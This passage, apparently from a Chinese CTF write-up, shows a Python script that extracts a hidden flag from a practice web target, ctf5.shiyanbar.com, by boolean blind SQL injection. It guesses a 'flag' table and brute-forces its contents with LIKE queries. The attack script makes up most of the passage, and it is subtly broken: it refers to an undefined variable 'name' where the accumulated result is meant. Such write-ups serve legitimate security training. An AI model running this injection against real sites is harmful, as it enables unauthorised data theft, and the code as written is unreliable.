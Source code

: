 ![](/pics/WEB集训/二/32.png)

经过上一题直接猜测表名为 `flag`（如果和上一题一样就可以直接写爆破 flag 的脚本了），返回 hello，说明确实有 `flag` 这个表。那么就可以直接写脚本爆破了。

![](/pics/WEB集训/二/33.png)

直接爆破 flag 表 flag 字段得到 flag。脚本如下：

```python
import requests, re
payload = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890{}_!@#$^&*().-"
url = "http://ctf5.shiyanbar.com/web/index_3.php"

def get_flag():
    res = ""
    for i in range(1, 100):
        print(i)
        for ch in payload:
            sql = "?id=1' and (select flag from flag) like '{}{}%'%23".format(name, ch)
            r = requests.get(url + sql)
            if r.text.find('Hello!') != -1:
                res += ch
                print(res)
                break
    print("flag: " + res)

if __name__ == '__main__':
    get_flag()
```
